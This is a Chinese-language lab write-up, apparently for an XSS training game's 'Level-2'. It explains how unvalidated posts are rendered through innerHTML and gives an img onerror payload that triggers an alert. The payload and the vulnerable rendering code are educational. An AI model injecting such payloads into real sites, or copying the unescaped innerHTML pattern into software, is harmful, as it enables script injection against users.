# Level-2

## 攻擊原理

#### 網頁原始碼:
- index.html

#### Make request:
- 從以下的片段看得出來，post-store.js 負責將 input data 儲存至 DB

```html=
<!-- This is our database of messages -->
<script src="/static/post-store.js"></script>
```

#### Push request:
- 送 POST 的時候沒有做任何的教驗，赤裸送出！

```javascript=
function Post(message) { 
  this.message = message;
  this.date = (new Date()).getTime();
}
```

#### Get response:
- 收 response 時，也直接將 data 放置到 innerHTML
![image](https://github.com/yillkid/ntc-white-hat/assets/185872/0052c5e5-c837-4d4a-bc8b-47c459c72c83)

```html=
html += '<b>You</b>';
html += '<span class="date">' + new Date(posts[i].date) + '</span>';
html += "<blockquote>" + posts[i].message + "</blockquote";
html += "</td></tr></table>"
containerEl.innerHTML += html; 
```

#### innerHTML:
- innerHTML 將字串串解析爲 HTML
- 意思是，如果字串串中有腳本 (script) ，瀏覽器就有可能會執行
- 但為什麼 `<script>` 在 innerHTML 中還是無法執行呢？
- 讀完 [Mozilla 官方文件](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
- 我們知道 `<script>` 在 innerHTML 中是無法執行的，僅此而已
- 但官方文件也有說，evet 是可以執行的

```
However, there are ways to execute JavaScript without using <script> elements, so there is still a security risk whenever you use innerHTML to set strings over which you have no control. For example:
```

```html=
const name = "<img src='x' onerror='alert(1)'>";
el.innerHTML = name; // shows the alert
```

## 攻擊方法
在 Input field 中插入
```
<img src="xxx" onerror='alert("hello")' />
```

## 截圖
![image info](./00.jpeg)
